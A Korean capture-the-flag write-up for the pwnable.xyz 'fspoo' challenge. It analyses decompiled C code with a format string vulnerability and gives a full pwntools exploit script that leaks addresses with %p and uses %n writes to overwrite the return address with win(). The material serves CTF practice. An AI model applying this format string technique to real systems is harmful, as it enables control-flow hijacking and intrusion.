

## 함수 취약점
1. `win()`으로 프로그램 실행을 변경하는 것이 목표이다.
```c++
int win()
{
  return system("cat flag");
}
```
2. `vuln()` 함수 분석
```c++
while ( 1 )
{
  printf(&cmd[32]);
  puts("1. Edit name.\n2. Prep msg.\n3. Print msg.\n4. Exit.");
  printf("> ");
  __isoc99_scanf("%d", &v1);
  getchar();
  if ( (unsigned __int8)v1 != 1 )
    break;
  printf("Name: ");
  read(0, &cmd[48], 0x1Fu);
}
if ( (int)(unsigned __int8)v1 <= 1 )
  break;
if ( (unsigned __int8)v1 == 2 )
{
  sprintf(cmd, byte_B7B, &cmd[48]);
}
else if ( (unsigned __int8)v1 == 3 )
{
  puts(cmd);
}
```
* 초기 cmd를 6byte만큼을 format string을 위한 영역으로 사용할 수 있다. cmd의 영역이 나누어져있는데, cmd에서 index에 따라 영역은 다음과 같다.
    * 
    * 회색 영역은 index상 32 전 format string 공격이 불가능한 곳이고, `puts(cmd)`를 해도 %s의 존재때문에 format string 공격이 불가능하다.
    * 노란색 영역은 `printf(&cmd[32])`의 존재때문에 format string 공격이 가능한 곳이다.
* cmd+38~cmd+47은 0x00으로 채워져있어 `printf(&cmd[32])`에서 출력이 이루어지지 않는데 이 구간을 다른 값으로 변화시킬 수 있다면, 더 큰 길이의 format string 공격이 가능할 것이다.
3. v1에 입력을 할때 하위 바이트만 검사하므로, v1에도 입력을 할 수 있다.

## 구현
1. 6byte format string으로 주소 구하기
```python
# 1.1. get ret address of vuln
p.sendafter('Name: ', 'a'*25+'%10$p')

p.sendlineafter('> ', '2')

vuln_sfp = int(p.recv(10), 16)
vuln_ret = vuln_sfp - 0xc

# 1.2. Get Base Address & function Address
p.sendlineafter('> ', '1')
p.sendafter('Name: ', "A"*25+"%2$p")
p.sendlineafter('> ', '2')
ret = int(p.recv(10), 16)

win_offset = 0x9fd
cmd_offset = 0x2040

cmd_addr = ret - 48
base_addr = cmd_addr - cmd_offset
win_addr = base_addr + win_offset

log.info(f"win_addr : {hex(win_addr)}")
log.info(f"cmd_addr : {hex(cmd_addr)}")
log.info(f"vuln_ret_addr : {hex(vuln_ret)}")
```
2. 1, 2를 초기 바이트 값으로 가지는 쓸 수 있는 address 구하기, v1에 buffer로 입력해준다.
```python
# tmp writable area
tmp_1 = base_addr + 0x2001
tmp_2 = base_addr + 0x2002
```

3. cmd+38 ~ cmd+47를 특정 값으로 바꾸어 format string의 영역 확장
```python
p.sendlineafter('> ', '1')
p.sendafter('Name: ', 'A'*27+'%6$n')
p.sendlineafter('> ', str(tmp_2))

for i in range(10):
    p.sendlineafter('> ', str(cmd_addr+38+i))
```

4. 확장된 cmd로 win address를 쪼개고 format string 실행
```python
# win() address 2byte 
win_addr_a = win_addr & 0xffff # win() High Address
win_addr_b = (win_addr >> 16) & 0xffff # win() Low Address

# Insert win() High address
payload = "%"+str(win_addr_a-12)+"c%6$n\x00"
p.sendlineafter('> ', str(tmp_1))
p.recvuntil('Name: ')
p.send(payload)
p.sendlineafter('> ', str(vuln_ret-0x100000000))

# Insert win() Low address
payload = "%"+str(win_addr_b-12)+"c%6$n\x00"
p.sendlineafter('> ', str(tmp_1))
p.recvuntil('Name: ')
p.send(payload)
p.sendlineafter('> ', str(vuln_ret-0x100000000+2))

p.sendlineafter('> ', '0')
p.interactive()
```

### Reference
해당 풀이는 인터넷의 writeup을 참고했다.
* [[Pwnable.xyz] fspoo](https://rninche01.tistory.com/entry/Pwnablexyz-fspoo)